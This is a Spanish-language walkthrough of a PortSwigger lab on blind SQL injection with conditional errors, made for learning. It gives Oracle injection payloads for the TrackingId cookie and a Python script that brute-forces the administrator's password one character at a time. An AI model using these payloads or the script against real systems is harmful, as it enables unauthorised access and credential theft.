## Blind SQL injection with conditional errors

<p align="center">
  
</p>

El campo inyectable es el header de Cookie, por lo que tenemos que interceptar la petición o con Burp Suite o con CAIDO.

Accedemos al laboratorio y visualizamos la petición GET con CAIDO:

> Para ello necesitareis tener CAIDO (o Burp Suite) instalado, el plugin de Foxy Proxy e importar el certificado de CAIDO para dar confianza en conexiones https

<p align="center">
  
</p>

Mandamos la petición al Replay (o Repeater en caso de Burp Suite) mediante el atajo CTRL + R:

<p align="center">
  
</p>

Vamos a probar a realizar una inyección en el campo TrackingID del header Cookie:

<p align="center">
  
</p>

Vemos que no ha cambiado nada, así que vamos a tratar de forzar un error a ver si ocurre algo, para ello solo usamos `'` y observamos que el mensaje Welcome Back ha desaparecido:

<p align="center">
  
</p>

Vamos a tratar de realizar una consulta parecida al ejercicio anterior para ver como responde la web a comparativas de letras:

<p align="center">
  
</p>

Sigue dando error, vamos a probar a poner doble comilla simple después del TrackingID:

<p align="center">
  
</p>

Ahora vemos que no da problema, así que vamos a tratar de meter una consulta entre ambas comillas para ver como responde la web:

```SQL
TrackingId=xyz'||(SELECT '')||'
```

<p align="center">
  
</p>

Sigue dando el problema, vamos a tratar de poner from dual, por si fuera Oracle la base de datos:

```SQL
TrackingId=xyz'||(SELECT '' from dual)||'
```

<p align="center">
  
</p>

Vamos a tratar de verificar la existencia de la tabla `users` mediante el siguiente Payload:

```SQL
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

<p align="center">
  
</p>

>Se usa ROWNUM para que la consulta solo devuelva una fila y evitar errores (es como cuando se usa LIMIT para lo mismo)

Vamos a echar un vistazo a los Payload de Conditional errors del siguiente recurso para usarlos en la inyección:

```http
https://portswigger.net/web-security/sql-injection/cheat-sheet
```

Vamos a tratar de forzar un fallo con el siguiente Payload, ya que al cumplirse la condición de que 1=1, tratará de realizar una división de 1 entre 0, lo que ocasionara un error:

```SQL
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'
```

<p align="center">
  
</p>

Si ahora modificamos el Payload para que en vez de 1=1 ponga 2=1, saldrá 200 OK en la respuesta en caso de que exista el usuario administrator (porque la condición entraría en el ELSE):

```SQL
TrackingId=xyz'||(SELECT CASE WHEN (2=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'
```

<p align="center">
  
</p>

Ahora vamos a tratar de sacar la longitud de la contraseña del usuario `administrator`:

```SQL
TrackingId=xyz'||(SELECT CASE WHEN (length(password)>1) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'
```

> IMPORTANTE: recuerda que si la condición se cumple da error y si la condición es falsa da 200 OK

Vamos a enviar la petición al Automate de CAIDO o Intruder de Burp Suite para comprobar cual es la longitud de contraseña:

<p align="center">
  
</p>

Lanzamos el ataque de fuerza bruta:

<p align="center">
  
</p>

La contraseña es mayor a 19 caracteres, pero no es mayor a 20 caracteres, por lo tanto la contraseña tiene 20 caracteres.

Ahora vamos a realizar comparaciones de letras como en el ejercicio anterior para ver si podemos lograr sacar información mediante fuerza bruta:

```SQL
'||(SELECT CASE WHEN SUBSTR(username,1,1)='a' THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'
```

<p align="center">
  
</p>

Vemos que ha dado error 500, por lo que la condición ha cumplido y ya podemos usar este medio para obtener datos por fuerza bruta, así que vamos a crear un script en python, para ello nos montamos un entorno virtual:


```bash
python3 -m venv my_venv
source ./my_venv/bin/activate
which python3
```

<p align="center">
  
</p>

Instalamos las dependencias termcolor, requests y pwntools:

```python
pip3 install pwntools
pip3 install requests
pip3 install termcolor
```

Creamos un script en **Python** cuyo objetivo es extraer la contraseña del usuario `administrator`.

>El funcionamiento del script se basa en un **ataque de fuerza bruta carácter por carácter**. Para ello, utiliza un doble bucle anidado que va comprobando cada posición de la contraseña y probando distintos caracteres posibles hasta encontrar el correcto.

```python
#!/usr/bin/python3

from pwn import *
from termcolor import colored
import requests, signal, sys, time, string

# Función para controlar la salida con CTRL + C
def def_handler(sig, frame):
    print(colored("\n\n [!] Saliendo...\n", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales del programa
main_url = 'https://0a120098035d9e53803408ff006c002f.web-security-academy.net/'
characters = string.ascii_lowercase + string.digits

# Función principal del programa (SQLI)
def makerequest():

    password = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Password:")
    for position in range(1, 21):
        for character in characters:
            sqli_payload = "bkDshzg6DUsbubPP'||(SELECT CASE WHEN SUBSTR(password,%d,1)='%s' THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||')" % (position, character)
            cookies = {
                'TrackingId' : sqli_payload,
                'session' : 'JajWhfOvb20LJPqB8LOLcNWB6r1aejdE'
            }
            p1.status(f"Probando {character} en posición {position}")

            r = requests.get(main_url, cookies=cookies)

            if r.status_code == 500:
                password += character 
                p2.status(password)
                break
    
if __name__ == '__main__':
    makerequest()

```

<p align="center">
  
</p>

Accedemos como el usuario administrator y resolvemos el laboratorio:

<p align="center">
  
</p>


